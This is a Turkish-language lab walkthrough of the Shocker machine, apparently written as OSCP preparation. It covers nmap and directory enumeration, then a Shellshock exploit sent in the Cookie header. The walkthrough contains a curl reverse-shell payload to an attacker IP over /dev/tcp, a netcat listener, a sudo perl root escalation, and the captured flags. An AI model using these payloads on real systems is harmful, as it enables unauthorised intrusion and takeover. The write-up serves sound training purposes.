





# OSCP_Preparation

Makine IP: 10.129.1.175


 Hemen nmap çalıştırıyorum ve bizi neler bekliyor görmek için sabırsızlanıyorum.

```console
nmap -A 10.129.1.175
```
 


Openssh ve Apache'de kullanabileceğim bir açıklık gözüme çarpmadı.

80 portu açık olduğu için sayfayı kontrol edelim.



Dirb ile devam etmeye karar verdim.

dirb http://10.129.1.175 



Buradaki her şey oldukça standart görünüyor, ancak /cgi-bin kesinlikle kontrol etmek istediğimiz bir şey. Bu, sistem yöneticilerinin yürütülecek komut dosyalarını yerleştirebileceği bir dizindir. Bu, kötüye kullanabileceğimiz php, python, bash, vb. Betikleri burada bulabileceğimiz anlamına gelir. Başka bir gobuster taraması ile bu dizinde daha derine inelim.

```console
dirb http://10.129.1.175/cgi-bin
```

Bir sonuç elde edemediğim için manuel olarak comman.txt wordlistini vererek deniyorum.

```console
gobuster dir -u http://10.129.1.175/cgi-bin -w /usr/share/wordlists/dirb/common.txt -x py,sh,php,js -t 50 
```

 
cgi-bin ve Shocker ismi birleşince biraz araştırdığımda shellshock olabileceğini düşündüm.

Cookie: bilgilerini değiştirerek açıklığı istismar edelim. Cookie: değerine bir payload yazılarak hedef sistemden shell alınabilir.

4443 numaralı portta listen modda olan kaliye bağlanıp zafiyetli web serverda reverse shell almamızı sağlayacak payloadı ekleyelim.

 ```console
 curl -H 'Cookie: () { :;}; /bin/bash -i >& /dev/tcp/10.10.14.85/4443 0>&1' http://10.129.1.175/cgi-bin/user.sh 
```

 ```console
 nc -nvlp 4443
```
Shell'i alabildik. Artık user için flag'i okuyabiliriz.

```console
shelly@Shocker:/usr/lib/cgi-bin$ cat /home/shelly/user.txt
```


User Flag: 5c7e0c88706ddfb75aca0fd68599cdbd

ilk şey, mevcut kullanıcımızın bir şifre belirlemeden sudo erişimine sahip olup olmadığını görmek için sudo -l çalıştırmaktı.

Perl sudo erişimi ile kullanarak, root olarak /bin/bash işlemini başlatabilir ve root bayrağını elde edebiliriz.

```console
shelly@Shocker:/usr/lib/cgi-bin$ sudo perl -e 'exec "/bin/bash"'
```



Root Flag: a73ab4b0055d1f2c59165123450f2be2

